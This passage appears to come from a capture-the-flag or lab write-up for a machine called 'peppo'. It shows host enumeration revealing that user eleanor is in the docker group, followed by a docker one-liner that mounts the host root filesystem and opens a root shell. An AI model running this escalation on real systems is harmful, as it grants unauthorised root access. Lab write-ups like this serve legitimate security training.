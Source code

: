 ![](images/2025-09-01_14.png)

## 4. Privilege Escalation
### 4.1 Host Enumeration
As I was running the command `id` I see that the user `eleanor` is member of the `docker` group. Maybe this is the privEsc path. 

```bash
eleanor@peppo:~$ id
uid=1000(eleanor) gid=1000(eleanor) groups=1000(eleanor),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),999(docker)
eleanor@peppo:~$ groups
eleanor cdrom floppy audio dip video plugdev netdev docker
```

![](images/2025-09-01_15.png)

### Docker
Used [[Docker]] for Privileged Escalation

Running the docker privEsc command:
```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
